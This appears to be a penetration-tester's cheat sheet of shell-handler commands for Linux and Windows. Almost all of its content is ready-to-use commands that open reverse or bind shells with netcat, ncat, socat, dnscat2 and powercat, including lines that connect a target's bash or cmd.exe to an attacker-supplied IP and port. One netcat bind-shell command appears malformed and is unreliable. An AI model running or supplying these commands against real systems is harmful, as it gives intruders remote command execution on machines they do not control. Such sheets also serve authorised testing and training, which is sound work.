 # Shell Handler

## 01 - General

### 1.1 - Netcat

#### 1.1.1 - Reverse shell

- Any listening ports ranging between **1-1023** must be ran as root

`$ nc -lnvp 1024`

`$ sudo nc -lnvp 80`

#### 1.1.2 - Bind shell

`$ nc -lnvp <target_IP> <PORT>`

### 1.2 - Ncat

##### 1.2.1 - TCP Method

`$ ncat <IP> <PORT> -e /bin/bash`

##### 1.2.2 - UDP Method

`$ ncat -u <IP> <PORT> -e /bin/bash`

### 1.3 - Socat

#### 1.3.1 - Reverse Shell

- Shell handler (attacker)

`$ socat tcp-listen:<PORT>,reuseaddr,fork file:`tty`,raw,echo=0`

- Connect to attacker

`$ socat tcp:<attacker_IP>:<PORT> exec:bash,pty,stderr,setsid,sigint,sane`

#### 1.3.2 - Bind Shell

- Shell handler (target)

`$ socat tcp-listen:<PORT>,reuseaddr,fork exec:bash,pty,stderr,setsid,sigint,sane`

`$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<PORT>`

### 1.4 - DNScat

TODO: Provide a usage example with dnscat

`$ ./dnscat2.rb`

## 02 - Windows

### 2.1 - Powercat

#### 2.1.1 - Reverse shell

##### 2.1.1.1 - TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe`

##### 2.1.1.2 - UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e cmd.exe`

#### 2.1.2 - Bind shell

##### 2.1.2.1 - TCP Method

`PS C:\> powercat -l -p <PORT> -e cmd.exe`

##### 2.1.2.2 - UDP Method

`PS C:\> powercat -u -l -p <PORT> -e cmd.exe`

## References

- [DNScat](https://github.com/iagox86/dnscat2)

- [Powercat](https://github.com/besimorhino/powercat)